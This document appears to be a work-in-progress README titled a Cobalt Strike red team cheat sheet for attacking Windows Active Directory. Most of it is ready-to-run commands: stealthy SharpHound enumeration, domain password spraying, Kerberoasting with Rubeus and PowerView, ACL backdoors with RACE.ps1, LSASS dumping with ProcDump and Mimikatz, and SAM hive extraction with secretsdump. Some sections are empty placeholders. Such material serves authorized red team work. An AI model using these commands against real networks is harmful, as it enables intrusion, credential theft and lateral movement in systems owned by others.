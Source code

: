 # NOTE: WORK IN PROGRESS

# Cobalt Strike Red Team Cheat Sheet
---
## Domain Enumeration

Running PowerView and SharpView
```
PowerView:
# powershell-import --> Select PowerView.ps1 to import PS1 file in memory
# powershell Get-Module PowerView
# powershell Get-NetUser -Identity testuser -Domain lab.com

SharpView
# execute-assembly C:\SharpView.exe Invoke-CheckLocalAdminAccess --> Check servers for local admin using current privileges
```

Running ActiveDirectory module
```
# powershell import --> Select \ADModule\Microsoft.ActiveDirectory.Management.dll  file from https://github.com/samratashok/ADModule
# powershell Get-ADDomainController -Domain lab.com
```

Running Sharphound (.NET version of Bloodhound) for AD domain collection
```
Running SharpView in memory (.NET version of PowerView)
# execute-assembly C:\SharpHound.exe --CollectionMethod All --Domain lab.com --Stealth --excludedomaincontrollers --windowsonly --OutputDirectory C:\users\testuser\appdata\local\temp\

Collecting only user sessions to determine who is logged in and where:
# execute-assembly C:\SharpHound.exe --CollectionMethod Session,LoggedOn --Outputdirectory C:\temp\

Collection methods reference: https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html
```
---
## Local Privilege Escalation
PowerUp

------------------------------------------------------------------------------------------
## Lateral Movement
Invoke-TheHash

Enable Powershell Remoting manually
```
# powershell 
```

[RACE.ps1](https://github.com/samratashok/RACE): ACL attacks for lateral movement, persistence and privilege escalation
```
# powershell-import --> RACE.ps1
# powershell Set-RemotePSRemoting -SamAccountName testuser -ComputerName ops-dc.lab.com
# powershell Set-RemoteWMI -SamAccountName testuser -Computername ops-dc.lab.com
```
------------------------------------------------------------------------------------------
## Domain Privilege Escalation
### GPP Password
[Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

### Password spraying
[DomainPasswordSpray.ps1](https://github.com/dafthack/DomainPasswordSpray)
```
Get a domain user list
# powershell Get-DomainUserList -Domain lab.com -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt

Password spray from a username and password list
# powershell Invoke-DomainPasswordSpray -UserList userlist.txt -PasswordList passlist.txt -Domain lab.com -OutFile sprayed-creds.txt

Auto spray a specific password on an auto-generated user list (noisy)
# powershell Invoke-DomainPasswordSpray -Password Winter2020
```

### Kerberoasting
PowerView kerberoasting
```
Get users with SPN set
# powershell Get-DomainUesr -SPN

Kerberoast all users
# powershell Invoke-Kerberoast - OutputFormat hashcat | fl

Kerberoast specific user
# powershell Invoke-Kerberoast -Identity testaccount -Domain lab.com -OutputFormat hashcat | fl
```

Rubeus kerberoasting
```
Kerberoast all users
# execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHashes.txt /domain:lab.com

Kerberoast specific user
# execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHash.txt /user:testaccount /domain:lab.com
```

------------------------------------------------------------------------------------------
## Exploitation

### Chrome Session Stealing
SharpDPAPI and SharpChrome (require DA privileges)

Dumping Chrome login passwords
- SharpChrome

------------------------------------------------------------------------------------------
## Exfiltration - Password Attacks
### Dumping LSASS locally
Dumping LSASS with ProcDump.exe (requires touching disk) (NOTE: Might get flagged by AV and raise alerts but will often still output dump file)
```
# upload --> ProcDump.exe
# shell ProcDump.exe -accepteula -ma lsass.exe lsass.dmp
```
Dumping LSASS with [Out-Minidump.ps from PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1)
```
# powershell Get-Process | Out-Minidump -DumpFilePath C:\temp
```
Extracting hashes offline from LSASS using Mimikatz
```
# mimikatz.exe log "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" "sekurlsa::wdigest" exit
```
### SAM dump
```
# shell reg.exe save HKLM\sam sam.save
# shell reg.exe save HKLM\security security.save
# shell reg.exe save HKLM\system system.save

Download files to dump SAM hahses offline using Secretsdump.py
# python secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
### NTDS.dit dump
[Secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to dump NTDS.dit remotely
```
fill
```
NTDSutil.exe to dump NTDS.dit locally on a Domain Controller
```
fill
```

------------------------------------------------------------------------------------------
# References
[Cobalt Strike commands cheat-sheet](https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet)

[Sharphound](https://github.com/BloodHoundAD/SharpHound3)

[Mimikatz reference cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md)
